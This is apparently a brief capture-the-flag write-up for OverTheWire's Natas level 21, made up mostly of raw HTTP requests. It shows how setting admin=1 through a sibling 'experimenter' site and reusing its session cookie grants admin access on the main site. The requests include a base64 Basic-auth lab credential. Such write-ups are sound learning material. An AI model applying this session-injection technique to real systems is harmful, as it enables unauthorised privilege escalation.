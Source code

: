 GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==
Connection: keep-alive
Cookie: PHPSESSID=kgg8s9ep66jeihlc55u5dugtid
Upgrade-Insecure-Requests: 1

# Level 21 -> Level 22

```
POST /index.php HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://natas21-experimenter.natas.labs.overthewire.org
Authorization: Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==
Connection: keep-alive
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Cookie: PHPSESSID=kgg8s9ep66jeihlc55u5dugtid
Upgrade-Insecure-Requests: 1

align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update
```

set admin=1, copy the PHPSESSID from experimental site  
now use that PHPSESSID to get password from original site  
GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==
Connection: keep-alive
Cookie: PHPSESSID=kgg8s9ep66jeihlc55u5dugtid
Upgrade-Insecure-Requests: 1


```
GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==
Connection: keep-alive
Cookie: PHPSESSID=kgg8s9ep66jeihlc55u5dugtid
Upgrade-Insecure-Requests: 1
```

